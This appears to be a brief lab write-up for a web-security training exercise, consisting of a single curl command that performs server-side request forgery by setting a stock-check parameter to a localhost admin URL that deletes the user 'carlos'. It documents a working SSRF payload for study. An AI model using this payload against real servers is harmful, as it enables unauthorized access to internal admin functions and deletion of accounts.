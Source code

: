 # SSRF using curl command

### Basic SSRF against Local server

curl -X POST https://0a1c00f803d90a66807ddab000ec00df.web-security-academy.net/product/stock \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data "stockApi=http://localhost/admin/delete?username=carlos"

